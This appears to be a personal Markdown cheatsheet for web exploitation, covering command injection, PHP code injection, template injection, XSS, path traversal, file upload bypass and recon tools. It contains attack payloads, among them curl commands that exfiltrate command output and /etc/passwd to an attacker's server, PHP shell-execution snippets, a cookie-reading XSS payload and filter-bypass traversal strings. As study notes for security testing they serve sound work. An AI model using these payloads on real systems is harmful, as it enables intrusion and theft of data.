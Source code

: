 # Cybersecurity Cheatsheet

## Table Of Contents

- [Cybersecurity Cheatsheet](#cybersecurity-cheatsheet)
  - [Table Of Contents](#table-of-contents)
  - [Web Exploitation](#web-exploitation)
    - [Start Hack](#start-hack)
    - [Techniques](#techniques)
    - [Command Injection](#command-injection)
      - [Useful commands](#useful-commands)
      - [Out of band in OS command injection](#out-of-band-in-os-command-injection)
        - [`curl`](#curl)
        - [`ping` and `dig`](#ping-and-dig)
    - [Code Injection](#code-injection)
    - [Server Side Template Injection](#server-side-template-injection)
    - [XSS](#xss)
      - [DOM-Based](#dom-based)
    - [Open Redirect](#open-redirect)
    - [Path Traversal](#path-traversal)
    - [File Upload](#file-upload)
  - [Recon](#recon)
  - [Handwrite Notes](#handwrite-notes)

## Web Exploitation

### Start Hack

1. Work with the website, the workflow, buttons, forms, etc.
2. [OS command injection](#command-injection)
3. Code injection
4. Server side template injection
5. XSS

### Techniques

| Key            | Description                                                      |
| -------------- | ---------------------------------------------------------------- |
| Verb Tampering | Send different methods requests to a path to see vulnerabilities |
| HTTP request   | Use hex or encode URL                                            |
| CORS           | If enabled, the best vulnerability                               |

### Command Injection

| Key                        | Description                                                 |
| -------------------------- | ----------------------------------------------------------- |
| `$ ls;pwd`                 | Run multiple commands with semicolon                        |
| `$ ls && pwd`              | If the first result command is ok, run the second           |
| `$ ls \|\| pwd`            | OR                                                          |
| `$ ls \| pwd`              | Pipe                                                        |
| `$ ls & pwd`               | & shows the PID process. But we use for multiple commands   |
| `$ ping 127.0.0.1;ls -c 1` | Inject `ls; -c 1` or `ls # -c 1` or `ls %23 -c 1` to bypass |

**No result:** what to do if we can not get the command result in response? Use the `sleep 20` command 
to find whether it has vulnerabilty or not

#### Useful commands
When you have identified an OS command injection vulnerability, it is generally useful to execute some initial commands to obtain information about the system that you have compromised. Below is a summary of some commands that are useful on Linux and Windows platforms:

| Purpose of command    | Linux       | Windows       |
| --------------------- | ----------- | ------------- |
| Name of current user  | whoami      | whoami        |
| Operating system      | uname -a    | ver           |
| Network configuration | ifconfig    | ipconfig /all |
| Network connections   | netstat -an | netstat -an   |
| Running processes     | ps -ef      | tasklist      |

#### Out of band in OS command injection

##### `curl`

1. Run a server in hacker's computer (better to bind it to `80` or `443` or `53` port)
2. Inject these commands: 
    - `$ curl <addr>/?key=value`
    - to run a command (e.g. `ls -l`) use this command `$ curl <addr> -d "$(ls -l)"`
    - to send file, use this command `$ curl <addr> -d @/etc/passwd`
3. See the logs in the server

##### `ping` and `dig`

Sometimes the HTTP protocol is not allowed, so we can use `ping` or `dig` to send data to the server. The attacker can create a DNS server to receive the data.

### Code Injection

The `eval("print (2 + 2);")` function in PHP runs a code

- e.g. `eval("ping $ip")` **bypass** by adding `"` or `'` or  
**exploit:** `";phpinfo();`

- **Comment:** Maybe we should comment the front codes. Use `//` or `#` for PHP.
- **Input limitation:** execute a shell with `system()` or `shell_exec()` or `exec()` or `aval()` in PHP.
    - e.g. `system($_GET[v])`


### Server Side Template Injection

- Tool for this volnerability: [tplmap][1]
- Input these: `{2*2}` or `{`
- **exploit:** for PHP and Smarty engine, `{php}phpinfo(){/php}`

### XSS

Check these payloads:

- `<h1></h1>`
- `test">`
- `<script></script>`

Types of XSS:

- Reflected
- Stored
- DOM-based: e.g. `<script>document.write(document.cookie)</script>`

#### DOM-Based

DOM-based XSS vulnerabilities usually arise when JavaScript takes data from an attacker-controllable source, such as the URL, 
and passes it to a sink that supports dynamic code execution, such as `eval()` or `innerHTML`. The most common source for DOM 
XSS is the URL, which is typically accessed with the `window.location` object. An attacker can construct a link to send a victim 
to a vulnerable page with a payload in the query string and fragment portions of the URL.

use developer tools to inspect the HTML and find where your string appears. Note that the browser's "View source" option won't 
work for DOM XSS testing because it doesn't take account of changes that have been performed in the HTML by JavaScript.

### Open Redirect

- Header
- Redirect meta tag in HTML
- `window.location` in JavaScript

### Path Traversal

**Pattern:** www.stuff.com/?page=index.php

- Test absolute path: `/etc/passwd`
- Test path traversal: `../../../etc/passwd`
- `../../image.jpg` -> `image.jpg`: The WAF is Replacing the `../`. How to bypass? `....//....//....//etc/passwd `
- The server is concating the extension (e.x. `.jpg`): `/etc/passwd` -> `/etc/passwd.jpg`. How to bypass? Use null byte `%00` in PHP. `/etc/passwd%00.jpg` This will ignore the extension.

### File Upload

- Change the file extension in the request then put the file. Run it with http request and pass parameters.
- Maybe the back-end is checking the content-type. Just change the file extension.
- گاهی محدودیت‌هایی تعریف می‌شود که مثلا فایل `php` در هر فولدری اجرا نشود و به جای آن فقط متنش رو توی مرورگر نشون بده.
برای دور زدنش کافیه `../` باهاش ترکیب کنیم.

## Recon

- **trufflehog:** Find credentials all over the place. [documents][2]
```bash 
$ trufflehog git https://github.com/ILoveBacteria/calculator-telegram-bot --no-update
```

- **SecLists:** The security tester's companion. [documents][3]
- **dirsearch:** A tool designed to brute force directories and files in websites. [documents][4]

## Handwrite Notes

| #     | Key           | Description                                                                 |
| ----- | ------------- | --------------------------------------------------------------------------- |
| **1** | `http.server` | Create a simple fantastic HTTP server with Python. `python3 -m http.server` |
| **2** | `dig`         | `$ dig A <addr>` find the host IP. Maybe this is a virtual host             |
| **3** | VH            | `$ curl <IP> -H "Host: <addr>"`                                             |


[1]: https://github.com/epinna/tplmap
[2]: https://github.com/trufflesecurity/trufflehog
[3]: https://github.com/danielmiessler/SecLists
[4]: https://github.com/maurosoria/dirsearch